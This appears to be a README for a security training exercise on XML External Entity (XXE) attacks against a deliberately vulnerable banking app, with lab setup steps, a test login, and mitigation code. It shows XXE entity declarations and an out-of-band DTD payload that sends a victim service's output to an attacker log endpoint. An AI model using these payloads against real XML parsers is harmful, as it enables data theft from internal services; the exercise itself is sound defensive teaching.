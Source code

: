 # Exercise 5 - XML External Entities (XXE) 
Exercise to help you understand XEE exploits and their mitigations

## Setup and Start Applications

1. check out exercise5 
   * from command line: 'git checkout exercise5'
1. start the v-bank-app in debug mode
   * with maven command:'mvn clean spring-boot:run -f ./v-bank-app/pom.xml'
1. start the attacker-app in debug mode
   * with maven command:'mvn clean spring-boot:run -f ./attacker-app/pom.xml'
   
## Brief description of the exercise
The applications in this scenario are:
* the vbank application at http://vbank.127.0.0.1.xip.io:8080 
* the attacker application at http://attack.127.0.0.1.xip.io:9090/, this holds the (malicaiout) XML payloads and DTDs
  * For the standard XXE scenario:
    * The XML payload: http://attack.127.0.0.1.xip.io:9090/xml/xxe_standard.xml 
  * For the out-of-band XXE scenario
    * The XML payload: http://attack.127.0.0.1.xip.io:9090/xml/xxe_out-of-band.xml
    * And the DTD: http://attack.127.0.0.1.xip.io:9090/xml/evil.dtd
* The victim service at: http://service.127.0.0.1.xip.io:9090/victim
    * This service should normally not be availabe to the client calling the v-bank application. 
    With the help of the XXE exploit the attacker manages to call the service and:
      * Standard XXE: Place the victim's output in the processed document and put in the note of resulting transaction.
      * Out-of-band XXE: Send the victim's output to the logger service at http://attack.127.0.0.1.xip.io:9090/log (whose input can be viewed at http://attack.127.0.0.1.xip.io:9090/viewlog)
But first you have to find the XXE vulnerability in the v-bank-app.

## Look for XXE vulnerabilities

Hint: XXE vulnerabilities are to be found where XML parsing/processing takes place.

Present vulnerabilities: _BankController.uploadTransactions(...)_ where the processing of the uploaded XML from the home page takes place.

## Exploit to understand

For the exploit we will use the XML files downloadable from http://attack.127.0.0.1.xip.io:9090/xxe 
Please download the beolow files to a folder on your local drive:
* transactions.xml: Normal payload
* xxe_call_service.xml: XEE payload calling a service
* xxe_call_service_out-of-band.xml: XXE payload calling a service and returning results out of band

1. Test
   * Login as bob (bob / h3ll0bob) and upload transactions.xml. 
   * You should see 2 transactions in the transaction history page.

1. Standard XXE
   * Logged in as bob, please upload xxe_standard.xml
   * 1 new transaction should appear in the history screen: 
     * In the note file of the newly uploaded transaction you should see "...(you fall victim to a standard XXE attack!)"
   * What was happening?
     * ```<!ENTITY victim SYSTEM 'http://service.127.0.0.1.xip.io:9090/victim'>``` entry created a victim entity with the outout of the _victim_ _service_ as its value
     * then due to ```<note>&victim;</note>``` the XML parser places it into the the note field before constructing the Transaction objects.
    
1. Out-of-Band XXE    
   * Logged in as bob, please upload xxe_standard.xml
   * 1 new transaction should appear in the history screen: 
     * In the note file of the newly uploaded transaction you should see "...(you fall victim to a Out-of-Band XXE attack!)"
   * What was happening?
     * ```<!ENTITY victim SYSTEM 'http://service.127.0.0.1.xip.io:9090/victim'>``` entry created a victim entity with the outout of the _victim_ _service_ as its value
     * Then in the_evil.dtd used the %victim; parameter entity (parameter entities are denoted by % and can be reused within the DTD) to create another %send; entity which when evaluated will send the value of %victim; to the log service at http://attack.127.0.0.1.xip.io:9090/log 
     ```<?xml version="1.0" encoding="UTF-8"?>
            <!ENTITY % all "<!ENTITY send SYSTEM 'http://attack.127.0.0.1.xip.io:9090/log?msg=%victim;'>">
            %all;
     ```
     * Because the output of the attacked service (normally confidential information) is send to the log service and is not received with the response it is called Out-of-Band XXE. 
       (It is also called Blind XXE) 
       
 1. Tasks 
   * Please configure the XML parser to omit external DTD resources  
   * Add a lexical parser to preprocess the XML and fail if any entities are found
   * Hints:
     * in _BankController.uploadTransactions(...)_:
       ```
       unmarshaller.setProperty(XMLConstants.ACCESS_EXTERNAL_DTD, "false");
       ```
     * create a new class: 
       ```
       public class AntiEntityScanner {
       
           private static final String LEXICAL_HANDLER = "http://xml.org/sax/properties/lexical-handler";
       
           public static void check(final InputStream data) throws Exception {
               final SAXParser saxParser = SAXParserFactory.newInstance().newSAXParser();
               final ElementHandler handler = new ElementHandler();
               saxParser.getXMLReader().setProperty(LEXICAL_HANDLER, handler);
               saxParser.parse(data, handler);
           }
       
           public static final class ElementHandler extends org.xml.sax.ext.DefaultHandler2 {
               @Override
               public void startEntity(final String name) throws SAXException {
                   throw new IllegalArgumentException("Entities are illegal");
               }
           }
       }
       ```
     * and in _BankController.uploadTransactions(...)_:
       ```
       InputStream incomingXML = file.getInputStream();
       //scan for entities in incoming XML without parsing the content
       AntiEntityScanner.check(incomingXML);
       ```
        
    The solution is avaliable in the exercise%-solution branch at https://github.com/vargadan/v-bank/tree/exercise5-solution
    You may find more on XXE mitifations at https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.md
    